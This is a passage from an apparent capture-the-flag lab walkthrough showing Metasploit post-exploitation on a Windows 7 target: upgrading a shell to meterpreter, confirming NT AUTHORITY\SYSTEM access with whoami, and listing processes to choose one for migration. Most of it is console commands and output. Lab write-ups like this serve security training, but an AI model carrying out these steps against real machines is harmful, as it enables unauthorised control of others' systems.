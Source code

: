 `No answer needed`

5. Once the meterpreter shell conversion completes, select that session for use.

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.8.106.222:4444 -> 10.10.166.97:49253 (10.10.166.97)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC                                                      10.8.106.222:4433 -> 10.10.166.97:49303 (10.10.166.97)

msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

`No answer needed`

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

```
meterpreter > shell
Process 1580 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

`No answer needed`

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
```